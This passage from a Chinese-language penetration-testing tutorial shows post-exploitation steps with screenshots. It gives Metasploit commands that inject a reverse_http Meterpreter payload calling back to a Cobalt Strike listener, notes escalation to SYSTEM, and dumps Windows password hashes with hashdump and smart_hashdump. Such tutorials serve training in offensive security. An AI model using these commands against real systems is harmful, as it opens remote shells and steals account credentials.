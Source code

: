 

然后在MSF中执行以下操作，我们的CobaltStrike就接收到反弹过来的shell了。



```
use exploit/windows/local/payload_inject      
set payload windows/meterpreter/reverse_http      
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true      
set lhost xxxx                 #cobaltstrike监听的ip      
set lport 14444                 #cobaltstrike监听的端口       
set session 1                   #这里是获得的session的id      
exploit
```




![](https://img-blog.csdnimg.cn/20191223225439300.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **获得System权限**



这里由于获得的直接是adminsitrator权限，所以可以直接提到system。在真实环境中，这里很多时候都是一个普通用户权限，需要我们去提权。



![](https://img-blog.csdnimg.cn/20191216230200330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **获取账号密码**



**1：导出hash**



```
run hashdump
```




![](https://img-blog.csdnimg.cn/20191223002135150.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**2：导出hash**



```
run windows/gather/smart_hashdump
```




![](https://img-blog.csdnimg.cn/20191223002319536.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
